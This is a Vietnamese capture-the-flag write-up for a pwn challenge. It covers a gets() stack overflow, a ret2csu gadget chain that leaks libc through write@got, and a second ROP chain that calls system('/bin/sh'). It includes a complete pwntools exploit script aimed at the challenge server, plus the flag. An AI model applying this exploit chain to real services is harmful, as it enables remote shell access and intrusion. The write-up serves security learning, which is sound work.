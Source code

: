 # not\_a\_ret2libc (Pwn)

Bài này đưa sẵn source code, libc

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

{% code title="not_ret2libc.c" lineNumbers="true" %}
```c
#include <stdio.h>

int main()
{
    char buf;
    write(1,"give me something please: ",0x1b);
    gets(&buf);
return 0;
}
```
{% endcode %}

Nhìn đề bài là phải leak được libc ( don't care about the title :))) ). Mình sẽ cố gắng gọi  `write(1,write@got,8)`

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Bài này không có `pop rdx` gadget nên mình nghĩ tới cách ret2csu.

Kiểm tra hàm `__libc_csu_init`

```asmatmel
   0x00000000004011a0 <+0>:     endbr64 
   0x00000000004011a4 <+4>:     push   r15
   0x00000000004011a6 <+6>:     lea    r15,[rip+0x2c63]        # 0x403e10
   0x00000000004011ad <+13>:    push   r14
   0x00000000004011af <+15>:    mov    r14,rdx
   0x00000000004011b2 <+18>:    push   r13
   0x00000000004011b4 <+20>:    mov    r13,rsi
   0x00000000004011b7 <+23>:    push   r12
   0x00000000004011b9 <+25>:    mov    r12d,edi
   0x00000000004011bc <+28>:    push   rbp
   0x00000000004011bd <+29>:    lea    rbp,[rip+0x2c54]        # 0x403e18
   0x00000000004011c4 <+36>:    push   rbx
   0x00000000004011c5 <+37>:    sub    rbp,r15
   0x00000000004011c8 <+40>:    sub    rsp,0x8
   0x00000000004011cc <+44>:    call   0x401000 <_init>
   0x00000000004011d1 <+49>:    sar    rbp,0x3
   0x00000000004011d5 <+53>:    je     0x4011f6 <__libc_csu_init+86>
   0x00000000004011d7 <+55>:    xor    ebx,ebx
   0x00000000004011d9 <+57>:    nop    DWORD PTR [rax+0x0]
   0x00000000004011e0 <+64>:    mov    rdx,r14
   0x00000000004011e3 <+67>:    mov    rsi,r13
   0x00000000004011e6 <+70>:    mov    edi,r12d
   0x00000000004011e9 <+73>:    call   QWORD PTR [r15+rbx*8]
   0x00000000004011ed <+77>:    add    rbx,0x1
   0x00000000004011f1 <+81>:    cmp    rbp,rbx
   0x00000000004011f4 <+84>:    jne    0x4011e0 <__libc_csu_init+64>
   0x00000000004011f6 <+86>:    add    rsp,0x8
   0x00000000004011fa <+90>:    pop    rbx
   0x00000000004011fb <+91>:    pop    rbp
   0x00000000004011fc <+92>:    pop    r12
   0x00000000004011fe <+94>:    pop    r13
   0x0000000000401200 <+96>:    pop    r14
   0x0000000000401202 <+98>:    pop    r15
   0x0000000000401204 <+100>:   ret  
```

Yeah, tại `__libc_csu_init+64`  có gadget `mov rdx,r14` giúp ta ghi thanh rdx.

Đầu tiên mình sẽ sử dụng các gadget bắt đầu ở `__libc_csu_init+90` để ghi các giá trị mong muốn vào cách thanh ghi.

`mov rdx,r14` -> ghi đè r14=8

`mov rsi,r13` -> ghi đè r13=write@got

`mov edi,r12d` -> ghi đè r12=1

`call QWORD PTR [r15+rbx*8]` -> ghi đè r15=write@got và rbx=0

`add rbx,0x1; cmp rbp,rbx` -> ghi đè rbp=1 để thoát loop `jne 0x4011e0` `<__libc_csu_init+64>`

ROPchain đầu tiên

```python
payload =b'0'
payload =b'0'
payload+=b'A'*8
payload+=p64(0x00000000004011fa)
payload+=p64(0) #rbx=0
payload+=p64(1) #rbp=1
payload+=p64(1)#r12=1 mov rdi, r12d
payload+=p64(exe.got["write"])#r13 mov rsi,r13
payload+=p64(8)#r14=8 mov rdx,r14
payload+=p64(exe.got["write"])#r15 -> call *(r15+rbx*8)
payload+=p64(0x00000000004011e0)
payload+=p64(0)*7 #padding
payload+=p64(exe.sym["main"]) #back to main
```

Đoạn sau chỉ cần lợi dụng địa chỉ của hàm `write` bị leak để tính địa chỉ của chuỗi `"/bin/sh"` và hàm `system`

```python
system=libc.sym["system"]-libc.sym["write"]+int(leak.hex(),16)
binsh=next(libc.search(b"/bin/sh"))-libc.sym["write"]+int(leak.hex(),16)
log.info(hex(system))
log.info(hex(binsh))
```

ROPchain trước đã giúp ta quay lại hàm main, giờ gửi thêm ROPchain mới để gọi hàm system

```python
payload =b'0'
payload+=b'A'*8
payload+=p64(pop_rdi_ret)
payload+=p64(binsh)
payload+=p64(0x0000000000401204)#ret
payload+=p64(system)
```

Scirpt giải

```python
#!/usr/bin/env python3
from pwn import *
from time import sleep
exe = ELF("not_a_ret2libc_patched")
libc = ELF("./libc-2.31.so")
ld = ELF("./ld-2.31.so")
pop_rdi_ret=0x0000000000401203
pop_rsi_pop_r15_ret=0x0000000000401201
context.binary = exe
context.log_level='debug'
#p=exe.process()
#gdb.attach(p,gdbscript="b *main+62")
p=remote("45.122.249.68",10022)
#stage1
p.recv()
sleep(1)
payload =b'0'
payload+=b'A'*8
payload+=p64(0x00000000004011fa)
payload+=p64(0) #rbx=0
payload+=p64(1) #rbp
payload+=p64(1)#r12=1 mov rdi, r12d
payload+=p64(exe.got["write"])#r13 mov rsi,r13
payload+=p64(8)#r14=8 mov rdx,r15
payload+=p64(exe.got["write"])#r15 -> call *(r15+rbx*8)
payload+=p64(0x00000000004011e0)
payload+=p64(0)*7 #padding
payload+=p64(exe.sym["main"])
p.sendline(payload)
sleep(1)
leak=p.recv()[:8][::-1]
sleep(1)
log.info(leak.hex())
#calculate
system=libc.sym["system"]-libc.sym["write"]+int(leak.hex(),16)
binsh=next(libc.search(b"/bin/sh"))-libc.sym["write"]+int(leak.hex(),16)
log.info(hex(system))
log.info(hex(binsh))
#stage2
payload =b'0'
payload+=b'A'*8
payload+=p64(pop_rdi_ret)
payload+=p64(binsh)
payload+=p64(0x0000000000401204)#ret
payload+=p64(system)
p.sendline(payload)
sleep(1)
p.interactive()
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Flag: `W1{t0o_m4nY_g4dg3t_f0r_Xplo1t}`







